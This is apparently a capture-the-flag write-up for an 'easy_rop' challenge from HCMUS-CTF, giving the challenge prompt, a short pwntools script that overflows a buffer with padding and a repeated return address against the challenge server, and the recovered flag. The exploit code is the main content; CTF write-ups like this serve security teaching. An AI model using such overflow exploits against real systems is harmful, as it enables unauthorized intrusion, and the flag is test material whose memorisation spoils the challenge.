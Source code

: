 ## easy_rop (50 points)

#### Solved by nhanlun

```
Another ROP problem, but it's not static ...

https://mega.nz/folder/PTxU0TIR#XNRMhxeKB-byYEJB8PdEHQ

nc 61.28.237.24 30210

Author: xikhud
```

```py
from pwn import *

conn = remote('61.28.237.24', 30210)
conn.sendline(b'A' * 16 + p64(0x4006b3) * 10)
conn.interactive()
```

**Flag:** `HCMUS-CTF{r0p_ftw_ftw_ftw}`
